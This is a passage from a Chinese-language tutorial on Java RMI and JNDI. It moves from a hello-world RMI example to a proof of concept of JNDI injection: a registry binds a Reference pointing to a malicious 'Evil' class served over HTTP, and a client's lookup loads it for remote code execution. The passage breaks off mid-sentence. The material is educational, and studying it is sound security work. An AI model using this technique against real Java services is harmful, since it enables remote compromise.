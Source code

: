 
启动程序，可以看到两个程序都输出了`hello world!`。

接下来说说其整体过程：

1. 第一个程序启动时，启动了一个RMI的注册中心，接着将HelloServiceImpl注册并暴露到了RMI注册中心
2. 第二个程序启动后，连接RMI注册中心，利用JNDI根据名称`hello`查询到了对应的对象，并将其数据下载到本地
3. 第二个程序下载的是一个Stub，根据Stub存储的信息(第一个程序中HelloServiceImpl实现暴露的IP和Port)，通过JRMP协议发起RMI请求
4. 接收到RMI请求后，第一个程序调用对应方法，输出`hello world!`并将方法返回值序列化返回给第二个程序
5. 第二个程序将受到的值反序列化得到方法返回值

可以看到，第二个程序进行`lookup`时，就会从Registry注册中心下载对应的数据，这里的下载是根据传入的Naming进行查找的。

如果想要进行RCE，可以向Registry注册Reference，有三个参数，`className`、`factory`、`classFactoryLocation`，当程序进行`lookup`并下载时，回使用Reference的`classFactoryLocation`指定的地址去下载`className`指定的`class`文件，并且加载实例化，从而使得程序`lookup`时加载远程恶意`class`实现RCE。

还是看例子：

```java
public class Main
{
    public static void main( String[] args )
    {
        try {
            Registry registry = LocateRegistry.createRegistry(1099);
            Reference reference = new Reference("Evil","Evil","http://127.0.0.1:8080/");
            ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
            registry.bind("hello",referenceWrapper);
        } catch (RemoteException e) {
            e.printStackTrace();
        } catch (AlreadyBoundException e) {
            e.printStackTrace();
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```

第二个程序：

```java
public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        try {
            new InitialContext().lookup("rmi://127.0.0.1:1099/hello");
        } catch (NamingException e) {
            e.printStackTrace();
        }
    }
}
```

注意，需要先将恶意类的Class文件放到本地HTTP8080端口下的根目录中。

此时可能出现问题：
